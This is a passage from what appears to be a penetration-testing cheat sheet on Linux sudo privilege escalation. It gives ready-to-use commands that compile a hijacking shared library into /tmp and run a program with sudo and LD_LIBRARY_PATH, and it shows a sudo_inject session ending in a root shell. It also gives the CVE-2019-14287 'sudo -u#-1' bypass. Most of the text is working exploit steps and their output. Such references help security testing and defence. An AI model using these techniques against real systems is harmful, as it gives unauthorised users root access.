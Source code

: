 Then compile the program with `gcc`.

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

Run program using `sudo`, while settings the `LD_LIBRARY_PATH` environment variable to `/tmp` (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp program-name-here
```

### sudo\_inject

Using [https://github.com/nongiach/sudo\_inject](https://github.com/nongiach/sudo\_inject):

```bash
$ sudo $command
[sudo] password for user:    
# Press Ctrl+c since you don't have the password, which creates an invalid sudo token
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

You can find presentation slides about this tool at: [https://github.com/nongiach/sudo\_inject/blob/master/slides\_breizh\_2019.pdf](https://github.com/nongiach/sudo\_inject/blob/master/slides\_breizh\_2019.pdf)

### sudo version < 1.8.28 (CVE-2019-14287)

An issue in `sudo` (version 1.8.28 and earlier), which occurs when an entry is inserted into the sudoers file with permissions = (ALL, !root):

```
zweilos kali = (ALL, !root) /usr/bin/chmod
```

This entry normally would mean that user `zweilos` is allowed to run `chmod` as any user except the root user, however, an error in these versions of `sudo` allows an attacker to run the specified programs in the `/etc/sodoers` file as root by telling `sudo` to act as user ID number `-1` (or its unsigned number `4294967295`),which is then interpreted as user ID `0` or `root`. &#x20;

```
sudo -u#-1 id
0
sudo -u#4294967295 id
0
```

### Using scripting languages

#### If you have privilege to run PERL as other user
